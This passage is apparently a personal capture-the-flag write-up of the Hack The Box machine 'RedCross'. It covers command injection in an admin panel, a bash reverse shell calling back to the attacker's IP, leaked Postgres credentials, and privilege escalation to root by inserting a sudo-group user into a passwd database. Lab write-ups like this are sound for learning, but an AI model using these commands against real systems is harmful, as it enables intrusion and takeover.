

Both User Management and Network Access look very interesting.



Theres one user here: tricia. I'll go ahead and try to add a user.





Neat! Not sure exactly what it's for yet but I'm going to check out Network Access real quick just to see what it is.



Network Access is just an allow/deny list for IP addresses.



I went ahead and added my IP to the whitelist. I'm wondering exactly whats going on here on the backend, probably just modifying iptables. Maybe that means its injectable?



No luck there. I tried a bunch of different techniques to get this to execute but nothing seemed to work.



When I was about to give up I figured I'd give changing the action parameter a try.

```bash
10.10.10.113 - - [15/May/2024 00:44:40] code 404, message File not found
10.10.10.113 - - [15/May/2024 00:44:40] "GET /TEST HTTP/1.1" 404 -
```
It actually worked! Time to get a shell.

I went ahead and hosted a simple bash script with a python server.

```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.4/9001 <&1'
```

```bash
10.10.10.113 - - [15/May/2024 00:48:17] "GET /rev.sh HTTP/1.1" 200 -
```

```bash
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.113] 37250
bash: cannot set terminal process group (894): Inappropriate ioctl for device
bash: no job control in this shell
www-data@redcross:/var/www/html/admin/pages$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Finally!!

## Enumeration and Escalation

A fully working shell is always priority for me.

```bash
www-data@redcross:/var/www/html/admin/pages$ ^Z
zsh: suspended  nc -lvnp 9001
kali@kali:~/HTB/redcross$ stty raw -echo; fg; reset         
[1]  + continued  nc -lvnp 9001

www-data@redcross:/var/www/html/admin/pages$ export TERM=xterm
www-data@redcross:/var/www/html/admin/pages$ stty rows 68 cols 252
```

The directory it drops us in has some interesting looking files.

```bash
www-data@redcross:/var/www/html/admin/pages$ ls -lah
total 36K
drwxr-xr-x 2 root root 4.0K Jun  9  2018 .
drwxr-xr-x 5 root root 4.0K Jun  9  2018 ..
-rw-r--r-- 1 root root 4.0K Jun  8  2018 actions.php
-rw-r--r-- 1 root root   70 Jun  6  2018 bottom.php
-rw-r--r-- 1 root root  899 Jun  7  2018 cpanel.php
-rw-r--r-- 1 root root 1.1K Jun  8  2018 firewall.php
-rw-r--r-- 1 root root  683 Jun  7  2018 header.php
-rw-r--r-- 1 root root  525 Jun  6  2018 login.php
-rw-r--r-- 1 root root 1.1K Jun  9  2018 users.php
```

#### actions.php

```bash
$dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");

$dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
```

Has two sets of credentials for Postgres. The other files have nothing interesting.

#### Open ports

I went ahead and uploaded linPEAS to /dev/shm and ran it.

```bash
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                                                                                                               
tcp     LISTEN   0        80             127.0.0.1:3306           0.0.0.0:*                                                                                                                                                                                 
tcp     LISTEN   0        32               0.0.0.0:21             0.0.0.0:*     
tcp     LISTEN   0        128              0.0.0.0:22             0.0.0.0:*     
tcp     LISTEN   0        128              0.0.0.0:5432           0.0.0.0:*     
tcp     LISTEN   0        128            127.0.0.1:5433           0.0.0.0:*     
tcp     LISTEN   0        128                    *:80                   *:*     
tcp     LISTEN   0        128                 [::]:22                [::]:*     
tcp     LISTEN   0        128                 [::]:5432              [::]:*     
tcp     LISTEN   0        128                    *:443                  *:*     
tcp     LISTEN   0        128                    *:1025                 *:*
```

Looks like MySQL is listening locally on 3306. Theres also 5432 listening on all which nmap didnt pick up. I bet if I ran nmap again now that my IP has been added to the whitelist it would show up as open.

#### Second nmap scan

```bash
21/tcp   open  ftp         syn-ack ttl 63 vsftpd 2.0.8 or later
-----SNIP-----
1025/tcp open  NFS-or-IIS? syn-ack ttl 63
5432/tcp open  postgresql  syn-ack ttl 63 PostgreSQL DB 9.6.7 - 9.6.12
| ssl-cert: Subject: commonName=redcross.redcross.htb
| Subject Alternative Name: DNS:redcross.redcross.htb
| Issuer: commonName=redcross.redcross.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-06-03T19:13:20
| Not valid after:  2028-05-31T19:13:20
| MD5:   6774:29d2:6eca:29e1:fdd9:47e5:f365:5eeb
| SHA-1: 7e9c:03e4:def6:2862:6dc9:b857:7f0f:43a5:ba11:7f2b
| -----BEGIN CERTIFICATE-----
| MIIC8jCCAdqgAwIBAgIJAJ9W3OqD9RjVMA0GCSqGSIb3DQEBCwUAMCAxHjAcBgNV
| BAMMFXJlZGNyb3NzLnJlZGNyb3NzLmh0YjAeFw0xODA2MDMxOTEzMjBaFw0yODA1
| MzExOTEzMjBaMCAxHjAcBgNVBAMMFXJlZGNyb3NzLnJlZGNyb3NzLmh0YjCCASIw
| DQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBALBwwr65lxvdoQWPK9zn/TTiwn3Y
| WdnTZAdPTsIrdV/M858k9iVSY+F4fho2v6bejqR7A3AGlQD/LqZ2k9YXZS/hfF/6
| fqovxBCNxkLIfXZ/UIgAgeW+4l6gCPt/pR79myG2H79Kdo4GnATOwwJ44IVy1F69
| /F17V01GQv29kuwtMmge6FI+l6Ro2n6j0MtByTVh+yXQSbcMb5LfTU93ttt0F1yE
| rog9IhrfNI+K2njtKI4LslBlWGo+HuxIrGWJwA4bD/q390XYH4XwHlQCiWWHSQfu
| 1xUFDNi0AzzDB/WeQ56dvJY7jHVgEGzckZS1PJ3PrmhKO1Ad0jxLIQsTuWECAwEA
| AaMvMC0wCQYDVR0TBAIwADAgBgNVHREEGTAXghVyZWRjcm9zcy5yZWRjcm9zcy5o
| dGIwDQYJKoZIhvcNAQELBQADggEBADR26Z+axy4HRMPy0vgk51+hG6qJdL3vu9WR
| mP3zeq0R1INIjgU/3YWR/9IWzEUncteRggGQiWiMDthNKX9mPemKon9W4yyxWOzz
| 3jUCDTAiittw5BM0Xxea23I9lcMsgItjgMhKaI7zdIg5QzXjryBkKciSwbVNtNJg
| 5JfILg0AHS9rC1bHTlvOpOKk303Z+2f6ajZo8MTMH+MUGckOGc7An8j3WTdIY+Ot
| RknTcbORCN7Ntgwf9Wd9ijXDEY8Cv0XxYni7Osz4jfhQqiL3SC1kXeFEI8rCaA+B
| NYJybx4k2un7+YVGWN+D32F3N5qY3Sd84jFjQwt90csafWMMp9w=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
Service Info: Host: RedCross; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Three new open ports. Im not going to bother checking FTP just yet since I already have a shell but I may come back to it if I get stuck.

#### Postgresql

```bash
www-data@redcross:/opt/iptctl$ psql -h 127.0.0.1 -U unixusrmgr -p 5432 -d unix
```

The creds work to connect.


```bash
unix-> \l
                                  List of databases
   Name    |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges
-----------+----------+----------+-------------+-------------+-----------------------
 postgres  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 redcross  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =Tc/postgres         +
           |          |          |             |             | postgres=CTc/postgres+
           |          |          |             |             | www=CTc/postgres
 template0 | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
           |          |          |             |             | postgres=CTc/postgres
 template1 | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
           |          |          |             |             | postgres=CTc/postgres
 unix      | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
(5 rows)
```

```bash
unix=> \d
              List of relations
 Schema |     Name     |   Type   |  Owner   
--------+--------------+----------+----------
 public | group_id     | sequence | postgres
 public | group_table  | table    | postgres
 public | passwd_table | table    | postgres
 public | shadow_table | table    | postgres
 public | user_id      | sequence | postgres
 public | usergroups   | table    | postgres
(6 rows)
```

```bash
unix=> SELECT * FROM passwd_table;
 username |               passwd               | uid  | gid  | gecos |    homedir     |   shell   
----------+------------------------------------+------+------+-------+----------------+-----------
 tricia   | $1$WFsH/kvS$5gAjMYSvbpZFNu//uMPmp. | 2018 | 1001 |       | /var/jail/home | /bin/bash
 test     | $1$yEf8M2nG$27tmQ22rr8M7oHMntWvRq0 | 2023 | 1001 |       | /var/jail/home | /bin/bash
```

Theres the test user that I added earlier. Their homedir is /var/test/jail. So it looks like the creds given would've worked for a SSH connection into a restricted environment.


```bash
ssh test@redcross.htb            
test@redcross.htb's password: 
Linux redcross 4.19.0-25-amd64 #1 SMP Debian 4.19.289-2 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
$ id
uid=2023 gid=1001(associates) groups=1001(associates)
$ ls -lah
total 40K
drwxr-xr-x 10 root root       4.0K Jun  8  2018 .
drwxr-xr-x 10 root root       4.0K Jun  8  2018 ..
drwxr-xr-x  2 root root       4.0K Jun  8  2018 bin
drwxr-xr-x  2 root root       4.0K Jun  7  2018 dev
drwxr-xr-x  3 root root       4.0K Jun  8  2018 etc
drwxr-xr-x  4 root associates 4.0K Jun  9  2018 home
drwxr-xr-x  3 root root       4.0K Jun  8  2018 lib
drwxr-xr-x  2 root root       4.0K Jun  7  2018 lib64
drwx------  2 root root       4.0K Jun  7  2018 root
drwxr-xr-x  4 root root       4.0K Jun  7  2018 usr
$ ls -lah /bin/
bash      cat       id        ls        mkdir     vim       vim.tiny  whoami    
$ ls -lah /bin/
total 2.4M
drwxr-xr-x  2 root root 4.0K Jun  8  2018 .
drwxr-xr-x 10 root root 4.0K Jun  8  2018 ..
-rwxr-xr-x  1 root root 1.1M Jun  7  2018 bash
-rwxr-xr-x  1 root root  35K Jun  7  2018 cat
-rwxr-xr-x  1 root root  43K Jun  7  2018 id
-rwxr-xr-x  1 root root 128K Jun  7  2018 ls
-rwxr-xr-x  1 root root  80K Jun  7  2018 mkdir
lrwxrwxrwx  1 root root    8 Jun  7  2018 vim -> vim.tiny
-rwxr-xr-x  1 root root 1.1M Jun  7  2018 vim.tiny
-rwxr-xr-x  1 root root  31K Jun  8  2018 whoami
```

They did work. There isnt really anything here.

So since I was able to add a user to the passwd_table from the web app, I should be able to add them here using bash.

I'll have to add a username, passwd, uid, gid, homedir, and shell.

First I'll generate a passwd

```bash
openssl passwd -1 password
$1$FDNc7qzf$7sSe7.Dq37m4DqhpU.GZX0
```

Then I'll add the user to the table. I was originally going to add just a regular user, but then I thought why not try to add them to the "sudo" group as well.

```bash
cat /etc/group | grep sudo
sudo:x:27:
```

Checking for the GID of sudo.

```bash
unix=> insert into passwd_table (username, passwd, gid, homedir) values ('goob', '$1$FDNc7qzf$7sSe7.Dq37m4DqhpU.GZX0', 27, '/dev/shm');
INSERT 0 1
```

It didnt error, which is always a good sign lol.

```bash
 goob     | $1$FDNc7qzf$7sSe7.Dq37m4DqhpU.GZX0 | 2024 |   27 |       | /dev/shm       | /bin/bash
```

The user shows up in the table :D


```bash
ssh goob@redcross.htb            
goob@redcross.htb's password: 
Linux redcross 4.19.0-25-amd64 #1 SMP Debian 4.19.289-2 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
goob@redcross:~$ id
uid=2024(goob) gid=27(sudo) groups=27(sudo)
goob@redcross:~$ sudo bash

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for goob: 
root@redcross:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root)
root@redcross:/dev/shm# cat /root/root.txt 
7b3c9630ccdfe68REDACTED
```

The SSH connection is accepted with goob:password and I'm able to run "sudo bash" to gain a root shell!! I didn't think I was going to be completely skipping the whole user part of this machine haha.

GG


